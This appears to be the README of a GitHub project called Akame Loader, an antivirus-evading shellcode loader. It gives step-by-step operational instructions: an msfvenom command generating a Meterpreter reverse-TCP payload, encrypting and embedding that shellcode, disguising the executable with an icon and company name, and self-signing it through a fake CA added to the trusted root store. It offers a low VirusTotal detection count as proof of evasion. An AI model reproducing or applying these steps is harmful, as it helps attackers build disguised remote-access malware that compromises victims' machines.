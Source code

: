 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD shellcode loader written in C++17</h4>

## Details

## Build instructions
1. Generate a shellcode with metasploit<br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shellcode.bin <br>
2. Encrypt your shellcode with encrypt.exe <br>
mv shellcode.bin \Akame Loader\x64\Release\Resources\<br>
cd \Akame Loader\x64\Release\Resources\<br>
(optional) encrypt --help<br>
encrypt.exe -l cpp -m shellcode.bin -e random -o cli<br>
3. Copy the output and paste it under the "payload" comment<br>
Paste your IV key, your KEY and your BUFF into the existent vectors<br>
4. Change the resources<br>
Add your icon, your company name, etc.<br>
5. Build the project<br>
Language standard: ISO C++17<br>
Configuration: Release<br>
Platform: x64<br>
Runtime Library: Multi-Threaded (/MT)<br>
SubSystem: Windows<br>
Dependencies: user32.lib;advapi32.lib;crypt32.lib;<br>
6. Add a certificate to your executable<br>
move Akame.exe Resources && cd Resources<br>
makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer<br>
certutil -user -addstore Root AkameCA.cer<br>
makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer<br>
pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx<br>
signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe<br>
! Change "Akame.exe" to whatever your executable name is<br>

## VirusTotal Scan (3/71 security vendors and no sandboxes)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

![Virus Total](https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal.png)

Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f?nocache=1

## License
MIT License

Copyright (c) 2022 WtfIsThis

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
